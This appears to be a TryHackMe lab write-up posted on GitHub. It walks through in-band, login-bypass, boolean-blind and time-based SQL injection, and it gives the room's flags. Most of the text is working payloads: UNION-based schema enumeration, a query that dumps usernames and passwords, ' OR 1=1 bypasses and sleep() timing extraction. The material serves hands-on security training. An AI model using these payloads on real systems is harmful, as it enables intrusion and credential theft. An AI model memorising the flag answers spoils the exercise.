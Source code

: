 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Cover.png" alt="SQL Injection Cover">
</p>

# [SQL Injection](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/sql_injection)

## Table of Contents

- [In-Band SQLi](#in-band-sqli)
- [Blind SQLi - Authentication Bypass](#blind-sqli---authentication-bypass)
- [Blind SQLi - Boolean Based](#blind-sqli---boolean-based)
- [Blind SQLi - Time Based](#blind-sqli---time-based)

## In-Band SQLi

1. What is the flag after completing level 1?

   In this task we will retrieve a users password by using the information returned to us when exploiting the SQL queries.
   
   To start we add an `'` after the `id=1` statement in the browser to see if it is vulnerable to SQLi. Since we get an error, there is probably no proper filtering put in place. We can use the `UNION argument to get extra information. We first need to find the number of columns. Using the following command, adding numbers until we get no error message.
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   No we can get more information on the database. To suppress the output of the article we can add `0'` in front of the query.
   
   ```cmd
   0' UNION SELECT 1,2,database();--
   ```
   
   This gives us the name of the database, which is `sqli_one`. Next we need to find the table names.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one';--
   ```
   
   This uses `information_schema` to display information about the database and its entries. Here we find the tables `article` and `staff_users`. The latter one is of more interest to us if we want to find someones credentials. Now we move on the find the folumn names in the `staff_users` table.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users';--
   ```
   
   This gives us three columns: `id`, `username`, and `password`. Now we can enumerate the conents of this table while using some formatting to make it readable.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users;--
   
   ![SQLi In Band](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Inband_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_3840}</details>

## Blind SQLi - Authentication Bypass

1. What is the flag after completing level two? (and moving to level 3)

   In this task we are facing blind SQLi, where we don't get any feedback from our query. This is often the case when attempting to bypass login screesns. One of the most common/basic methods is to make sure the statement is always true. We can do this by escaping the query and writing a statement which is always true.
   
   ```cmd
   ' OR 1=1;--
   ```
   
   ![SQLi Authentication Bypass](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Authentication_Bypass_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_9581}</details>

## Blind SQLi - Boolean Based

1. What is the flag after completing level three?

   On level 3 we only get a true or false response to help us find the answer.
   
   We first need to find the number of columns using:
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   Add as many columns as needed for the response to become true.
      
   To enumerate the database names, we can use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   sqli_three
   ```
   
   To enumerate the table names within the database we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema="sqli_three" AND table_name LIKE '%';--
   ``
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   users
   ```
   
   To enumerate the columns within this table we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema="sqli_three" AND table_name="users" AND column_name LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. Then add it as 'column_name!=...' to make sure we don't get a hit on it again. This time we get:
   
   ```cmd
   'id', 'username', and 'password'
   ```
   
   Next we need to find any existing username. For this we use the same method as before:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username like '%';--
   ```
   
   After finding username `admin` we use the same method to find the corresponding password:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '%';--
   ```
   
   Going through all characters we find `3845`.

   ![SQLi Boolean](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Boolean_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_1093}</details>

## Blind SQLi - Time Based

1. What is the final flag after completing level four?

   In this step, we get no feedback at all. The only way to get som information is to use the response time from the server. For this we add the `sleep()` command in the query to add a delay. This is executed if the query is true.
   
   The method is the same as the previous question. But we only get a different response time instead of a true or false statement. We start by enumerating the databases, then the tables and column names. Lastly, we enumerate for the username and password. In the end we get the following query.
   
   ```cmd
   admin123' UNION SELECT sleep(2),2 FROM users WHERE username='admin' AND password='4961';--
   ```
   
   ![SQLi Time Based](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Time_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_MASTER}</details>
